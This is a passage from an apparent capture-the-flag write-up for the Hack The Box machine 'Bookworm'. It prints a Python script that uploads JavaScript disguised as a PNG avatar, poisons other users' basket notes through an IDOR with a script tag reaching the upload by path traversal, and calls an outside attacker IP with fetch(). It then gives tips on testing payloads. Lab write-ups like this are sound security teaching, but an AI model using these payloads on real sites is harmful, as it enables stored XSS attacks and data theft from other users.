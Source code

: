     
    username = "0xdf"
    password = "0xdf0xdf"
    my_avatar_id = 14
    base_url = "http://bookworm.htb"
    xss = """fetch('http://10.10.14.6/python');"""
    
    sess = requests.session()
    
    # login
    sess.post(f'{base_url}/login', data={"username": username, "password": password})
    
    # set XSS in avatar
    sess.post(f'{base_url}/profile/avatar', files={'avatar': ('htb.js', xss, 'image/png')})
    
    # get basket id and IDOR
    resp = sess.get(f'{base_url}/shop')
    ids = re.findall('<!-- (\d+) -->', resp.text)
    
    for bid in ids:
        resp = sess.post(f'{base_url}/basket/{bid}/edit', data={"quantity": "1", "note": f'<script src="/static../img/uploads/{my_avatar_id}"></script>'}, allow_redirects=False)
        if resp.status_code == 302:
            print(f"Poisoned basket {bid}")
    

This assumes that the user 0xdf already exists with the password 0xdf0xdf,
with an avatar ID of 14 (all configured at the top). It updates the avatar
with the JavaScript defined towards the top, and then gets all the basket ids
from `/shop` and poisons them.

#### Testing

I’m going to have to build a bunch of XSS payloads to get through the next
step. To test, there’s a few techniques I found very helpful.

First, I’ll have an order on my profile page poisoned to load JavaScript from
my avatar. This allows me to upload new JS, and then refresh my profile and
look for errors in the developer tools console.

It’s also very useful to test JavaScript directly in the dev console before
trying to put it into XSS payloads. It shows errors and line numbers, catching
simple syntax errors.

### XSS / IDOR Enumeration

#### Enumerate Profile

I noted above that the cookies on the site are marked HttpOnly, so exfiling
those won’t work. I don’t know of any other sites that might exist, but I
could try to enumerate other ports on localhost. Before doing that, I’ll take
a look at what these users can see on `bookworm.htb`. I’ll set the `xss`
variable in my script to the following to take a look at the user’s profile:
